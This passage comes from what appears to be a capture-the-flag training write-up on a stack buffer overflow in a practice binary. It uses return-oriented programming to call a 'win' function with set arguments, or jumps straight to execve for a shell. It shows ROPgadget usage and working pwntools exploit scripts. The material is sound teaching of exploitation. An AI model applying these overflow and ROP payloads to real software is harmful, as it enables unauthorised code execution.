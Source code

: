 Run this script and lets see what we get. SHOOT you get something called EOF (End Of File) ?   

![](/images/pwn-train1/pwntrain6.png)

You can attach a gdb with your script and see where your script will crash / how it runs. But we are already given the c code and we know that there was some additional checks done to the `execve`.

![](/images/pwn-train1/pwntrain7.png)

So we have to somehow make the `arg1 = 0xdeadbeef` and `arg2 = 0xcafebabe`. This is where return oriented programming comes into picture. 

## Return Oriented Programming:

This is a type of attack where we use static code or code thats been used to make this binary. we will combine one or many such code snippets to form a chain that'll do something valuable to us.

* Since win is a function with arg1 and arg2 as parameters. We can set RDI = 0xdeadbeef and RSI = 0xcafebabe. Then call win function.

#### Exploit [ret2win]: 

Firstly we can get all the gadgets/code snippets in the binary with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Then lets take out the ones that we want.

```bash
python3 ROPgadget.py --binary ../Documents/pwn-train/pwn1/ret2shellcode
```

![](/images/pwn-train1/pwntrain8.png)

We can pop the registers to put the values we want and since every gadget has a return attached to it, we can call win function after those gadgets.

```python
from pwn import *

p = process("ret2shellcode")
pause()
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x000000000040129b) + p64(0xdeadbeef) + p64(0x0000000000401299) + p64(0xcafebabe) + p64(0) + p64(0x00000000004011a5))
p.interactive()
```

![](/images/pwn-train1/pwntrain9.png)

## Exploit [simpler version]: 

I know you went through all the struggle to set the arguments right, but if you can control the return address and jump literally anywhere, then why not just jump directly on the execve function. 

```python
from pwn import *

p = process("ret2shellcode")
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x00000000004011d1)) # address to execve
p.interactive()
```
> Here we avoided the constraints and directly jumped to the execve funtion. Clever of you.
